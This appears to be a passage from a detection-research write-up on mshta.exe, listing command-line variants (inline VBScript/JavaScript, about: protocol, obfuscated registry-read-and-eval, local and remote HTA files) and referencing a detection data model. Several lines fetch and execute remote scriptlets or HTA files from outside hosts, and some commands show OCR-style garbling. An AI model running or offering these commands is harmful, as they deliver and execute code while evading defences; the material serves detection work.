```text
mshta.exe using the VBScript protocol:
  mshta.exe vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close) 

mshta.exe using the javascript protocol:
  mshta.exe javascript:a=GetObject("script:https://webserver/payload.sct").Exec();close();

mshta.exe using the javascript protocol, somewhat obfuscated:
  mshta.exe javascript:dxdkDS="kd54s";djd3=newActiveXObject("WScript.Shell");vs3skdk="dK3";
  sdfkl3=djd3.RegRead("HKCU\\software\\klkndk32lk");esllnb3="3m3d";
  eval(asdfkl2);dkn3="dks";

mshta.exe using the about protocol:
  mshta.exe about:\<script\>a=GetObject("script:https://webserver/payload.sct").Exec();close();\</script\>

mshta.exe executing a remote HTA file:
  mshta.exe https://tdatsting.s3.us-east-2.amazonaws.com/jscript.hta

mshta.exe executing a local HTA file:
  mshta.exe jscript.hta

mshta.exe executing a local HTA file with an arbitrary name and extension: 
  mshta.exerandomfilename.randomextension 

mshta.exe when an HTA file is double-clicked:
  "C:\Windows\System32\mshta.exe" "C:\Users\pXXXXXX\Downloads\vbscript.hta"
  {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}
```

#### Detection Data Model

![DDM - MHSTA.exe executing HTA files or inline scripts](ddms/trr0016_a.png)
